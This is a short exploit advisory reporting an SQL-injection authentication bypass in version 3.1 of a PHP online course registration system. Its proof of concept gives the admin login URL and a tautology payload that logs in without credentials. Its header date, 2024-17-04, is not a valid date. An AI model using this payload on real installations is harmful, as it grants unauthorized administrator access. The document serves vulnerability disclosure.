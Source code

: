 # Online Course Registration System - Authentication Bypass
+ **Exploit Title:** Online Course Registration System - Authentication Bypass
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/online-course-registration-free-download/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7515
+ **Version:** 3.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Course Registration System allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/onlinecourse/admin/". 

## Proof of Concept:
+ Go to this address: "http://localhost/onlinecourse/admin/"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-05-16 114806](https://github.com/BurakSevben/CVEs/assets/117217689/5dce4eba-37ac-4e8e-9aa1-b1dd1651a4ed)


![Ekran görüntüsü 2024-05-16 123427](https://github.com/BurakSevben/CVEs/assets/117217689/3c62b2b1-4138-4627-a24e-414d4e95e4b8)
